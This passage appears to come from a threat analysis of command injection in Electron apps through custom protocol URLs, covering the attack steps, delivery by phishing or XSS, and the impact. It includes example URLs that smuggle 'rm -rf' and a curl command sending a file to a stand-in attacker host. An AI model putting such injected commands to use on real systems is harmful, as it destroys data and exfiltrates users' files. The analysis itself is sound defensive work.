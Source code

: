     **Example of a Malicious URL (Conceptual - Do not execute directly):**

    Let's assume the Electron application registers a custom protocol `myapp://` and has a handler that processes the path component of the URL.  If the handler naively uses the path component in a shell command without sanitization, a malicious URL could be:

    ```
    myapp://; rm -rf /tmp/important_files;
    ```

    Or, if the handler processes a query parameter, a malicious URL could be:

    ```
    myapp://vulnerable-handler?action=process&file=important.txt; curl attacker.com/stolen_data -d @important.txt
    ```

    **Important Note:** These are simplified examples. Real-world command injection exploits can be more complex and require careful crafting to bypass specific sanitization attempts or application logic.

4.  **Trigger URL Processing:** The attacker needs to deliver this malicious URL to the user and trick them into opening it. This can be done through:

    *   **Phishing Emails/Messages:** Embedding the malicious URL in an email or message that the user is likely to click.
    *   **Malicious Websites:** Hosting the malicious URL on a website that the user might visit.
    *   **Social Engineering:**  Tricking the user into manually pasting and opening the URL.
    *   **Exploiting Renderer Process Vulnerabilities (Indirect):** In some scenarios, a vulnerability in the Renderer process (e.g., XSS) could be used to programmatically trigger the opening of a custom protocol URL, bypassing user interaction.

5.  **Command Execution in Main Process:** When the user opens the malicious URL, the Electron application's Main process will receive the URL and pass it to the registered custom protocol handler. If the handler is vulnerable (lacks proper validation), the injected commands within the URL will be executed by the system shell with the privileges of the Electron application.

#### 4.3. Technical Impact of Successful Command Injection

Successful command injection in the Main process of an Electron application can have devastating consequences:

*   **System Compromise:** Attackers can gain complete control over the user's operating system. They can:
    *   **Install Malware:** Download and execute malware, including ransomware, spyware, and botnets.
    *   **Create Backdoors:** Establish persistent access to the system for future attacks.
    *   **Modify System Settings:** Alter system configurations to their advantage.
    *   **Denial of Service (DoS):** Crash the system or disrupt its normal operation.
*   **Data Breach:** Attackers can access and exfiltrate sensitive data stored on the user's system, including:
    *   **Personal Files:** Documents, photos, videos, etc.
    *   **Credentials:** Passwords, API keys, tokens stored by the application or other applications.
    *   **Application Data:**  Sensitive data managed by the Electron application itself.
*   **Privilege Escalation:** If the Electron application runs with elevated privileges, the attacker can inherit those privileges, potentially gaining root or administrator access.
*   **Lateral Movement:** In a networked environment, a compromised system can be used as a stepping stone to attack other systems on the network.
*   **Reputation Damage:**  For the developers of the vulnerable Electron application, a successful exploit can lead to significant reputation damage and loss of user trust.
